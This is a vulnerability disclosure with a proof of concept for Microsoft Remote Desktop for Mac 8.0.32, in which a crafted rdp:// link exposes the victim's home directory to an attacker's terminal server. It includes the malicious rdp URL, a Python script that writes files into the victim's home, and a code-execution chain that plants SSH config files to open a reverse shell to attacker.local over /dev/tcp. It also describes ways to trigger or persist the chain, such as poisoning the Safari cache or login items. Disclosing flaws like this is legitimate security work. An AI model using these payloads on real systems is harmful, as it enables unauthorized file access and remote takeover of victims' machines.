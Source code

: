 ## Description
A vulnerability exists in Microsoft Remote Desktop for Mac that allows a remote attacker to execute arbitrary code on the target machine.
User interaction is needed to exploit this issue, but a single click on a link (sent via mail, iMessage, etc.) is sufficient to trigger the vulnerability.

## Details
Microsoft Remote Desktop Client for Mac OS X (ver 8.0.32 and probably prior) allows a malicious Terminal Server to read and write any file in the home directory of the connecting user.
The vulnerability exists to the way the application handles rdp urls. In the rdp url schema it's possible to specify a parameter that will make the user's home directory accessible to the server without any warning or confirmation request. If an attacker can trick a user to open a malicious rdp url, he/she can read and write any file within the victim's home directory.

Since Mac OS X by default opens rdp urls without confirmation (for example via Safari, Mail, Messages), a single click on a link it's sufficient to trigger the vulnerability.

According to Microsoft, no CVE will be assigned due to the release model of this particular client.

A demo video is available at https://youtu.be/6HeSiXYRpNY.

## Proof Of Concept
The following Proof Of Concept creates a directory on the victim's home and puts a file into it.
To reproduce the issue follow the steps below:

- install a windows 2008 server and allow Administrator to connect without password
- login as Administrator
- configure a trusted ssl certificate for rdp connections
- install python2.7 and put the following script in the "Startup" folder
- logout
- send the link below to a victim
RDC link:

```
rdp://full%20address=s:attacker.local&desktopwidth=i:200&desktopheight=i:200&audiomode=i:2&disable%20themes=i:1&screen%20mode%20id=i:1&devicestoredirect:s:*&drivestoredirect=s:*&redirectprinters=i:1&username=s:Administrator
```


### Python script

```
#BOF
import sys
import subprocess
import time
import os

def runcmd(cmd):
        err = None
        out = None
        try:
                process =  subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE);
                out, err = process.communicate()
        except Exception as e:
                print str(e)

        return out


while(True):
        netuse = runcmd("net use")
        if netuse.find("TSCLIENT"):
                runcmd('MKLINK /D C:\\home \\\\tsclient\\home')

                runcmd('md c:\\home\\REMOTE')

                runcmd('copy c:\\REMOTE.txt c:\\home\\REMOTE\\REMOTE.txt')

                runcmd("shutdown /l /f")
                break

        time.sleep(0.4)
#EOF
```

## Remote Code Execution
To execute arbitrary code on the target machine we can use a trick that involves ssh and ssh:// URI handler.
Consider the following example where the RDC exploit pushes the following files on the remote machine:

- `~/.ssh/known_hosts`
```
p ssh-rsa AAAAB3NzaC1yc2EAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
- `~/.ssh/config`
```
Host p
HostName p
ProxyCommand /bin/bash ~/.ssh/command.sh
```
- `~/.ssh/command.sh`
```
for a in {1..31}; do trap "" $a; done
nohup bash -i >& /dev/tcp/attacker.local/1234 0 &
```

At this point any attempt to launch ssh://p will lead to the execution of ~/.ssh/command.sh without any warning. To automatically execute the triggering URL (ssh://p) we can either:

- send the link to the victim via Mail or iMessage
- poison Safari cache adding some javascript that launches the URL
- poison Safari "Application Saved State" so that the URL il launched at browser execuition
- poison "loginitems" to launch the URL at system startup

It's also possible achieve Remote Code Execution by sending a single link to the victim if he/she uses Safari as the default browser.

## Update
On Jan 17 2017 Apple pushed a security uptate to Safari that prevents this exploit from working.
This fix is mentioned in the Apple Store:
This update fixes an issue where a website could repeately attempt to launch other websites or applications

## Solution
Update Microsoft RDC to the latest version. The version 8.0.37 fixes this issue.